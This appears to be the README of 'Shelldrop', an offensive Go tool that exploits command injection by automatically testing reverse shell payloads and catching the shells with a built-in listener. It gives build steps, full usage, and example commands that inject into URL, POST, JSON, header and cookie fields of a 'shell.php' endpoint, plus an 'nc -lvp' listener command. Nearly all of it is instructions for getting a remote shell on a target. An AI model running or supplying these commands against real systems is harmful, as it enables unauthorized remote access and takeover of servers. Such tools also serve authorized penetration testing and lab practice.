 # Shelldrop

A command injection tool that leverages an injection point by automatically testing for working reverse shell payloads.

Shelldrop works by injecting payloads into the provided `SHELLDROP` keyword/placeholder.

**Features:**

- Configurable injection point
- Automatic payload detection
- Built-in listener
- Flexible configuration

![til](./demo/demo.gif)

## Build

```bash
git clone https://github.com/shhrew/shelldrop
cd shelldrop
go build -o shelldrop
```

## Usage

```text
usage: shelldrop [-h|--help] -l|--lhost "<value>" -p|--lport <integer>
                 [-P|--payload "<value>"] -u|--url "<value>" [-X|--method
                 (GET|POST|PUT|PATCH|DELETE)] [-d|--data "<value>"]
                 [-H|--header "<value>" [-H|--header "<value>" ...]]
                 [-C|--cookie "<value>" [-C|--cookie "<value>" ...]]
                 [--no-listener] [--no-color]

                 A command injection tool that automatically tests for working
                 reverse shell payloads.

[*] = Asterisked arguments can contain the SHELLDROP injection keyword

Arguments:

  -h  --help         Print help information
  -l  --lhost        The listen address
  -p  --lport        The listen port
  -P  --payload      Specific payload to use
  -u  --url          The target url [*]
  -X  --method       The request method. Default: GET
  -d  --data         POST data [*]
  -H  --header       Header "Name: Value" pairs, can be used multiple times [*]
  -C  --cookie       Cookie "Name=Value" pairs, can be used multiple times [*]
      --no-listener  Disable the built-in listener
      --no-color     Disable color output
```

## Examples

#### URL Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP"
```

#### Using Specific Payload
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" -P bash_tcp_1
```

#### Post Data Injection
```bash
# Form data
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d "vuln_param=SHELLDROP"

# JSON data
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d '{"vuln_param": "SHELLDROP"}' -H "Content-Type: application/json"
```

#### Header Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -H "User-Agent: SHELLDROP"
```

#### Cookie Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -C "vuln_cookie=SHELLDROP"
```

#### Using External Listener
```bash
# Start your own listener first
nc -lvp 4444

# Run shelldrop with built-in listener disabled
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" --no-listener
```